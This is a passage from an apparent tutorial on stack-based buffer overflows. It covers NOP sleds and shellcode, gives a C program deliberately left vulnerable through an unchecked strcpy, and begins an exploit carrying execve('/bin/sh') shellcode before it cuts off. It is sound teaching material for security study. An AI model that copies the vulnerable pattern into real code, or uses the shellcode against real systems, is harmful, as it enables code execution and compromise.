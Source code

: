 ```x86asm
    ; }
    add     $4, %esp
    pop     %ecx
    leave
    lea     -4(%ecx), %esp
    ret
```

## <a name="3" class="anchor"></a> [Stack-based overflow](#3)

A stack overflow, or stack smashing, is a special case of buffer overflow on the stack or heap, where data can overflow allocated buffer and overwrite other memory locations, such as return address.

### <a name="3.1" class="anchor"></a> [NOP slide](#3.1)

A [NOP slide](https://en.wikipedia.org/wiki/NOP_slide), or `nop`-sled, is a sequence of do-nothing instructions used to fill stack and eventually reach a jump to some injected shellcode.

Shellcode is any code used to start a shell, such as `execve("/bin/sh")`.

### <a name="3.2" class="anchor"></a> [Stack-based buffer overflow attacks](#3.2)

Below is a program vulnerable to a buffer overflow attack using `nop`-sled and injected shellcode.

```c
/* program.c */
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    /* buffer of size 512 bytes */
    char buffer[512];
    /* set all bytes in buffer to zero, no leftovers */
    memset(buffer, 0, sizeof(buffer));
    /* copy first argument to buffer without boundary check */
    if (argc > 1) {
        strcpy(buffer, argv[1]);
    }
    /* print content in buffer */
    printf("buffer@%p: %s\n", buffer, buffer);
    return 0;
}
```

Below is an exploit, where shellcode is a hexadecimal string encoding machine instructions. The shellcode can also be written in assembly and inserted into executable by compiler, `gcc -o exploit exploit.c shellcode.s` with `unsigned char code[] = ... ;` replaced by `extern char shellcode[];`.

```c
/* exploit.c */
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

#define PROGRAM "./program"

/* shellcode */
unsigned char shellcode[] =
    "\xeb\x15\x5b\x31\xc0\x89\x5b\x08\x88\x43\x07\x8d\x4b\x08\x89\x43"
    "\x0c\x89\xc2\xb0\x0b\xcd\x80\xe8\xe6\xff\xff\xff/bin/sh";
/* inline macro to get stack pointer */
__inline__ unsigned int get_esp(void) {
    unsigned int res;
```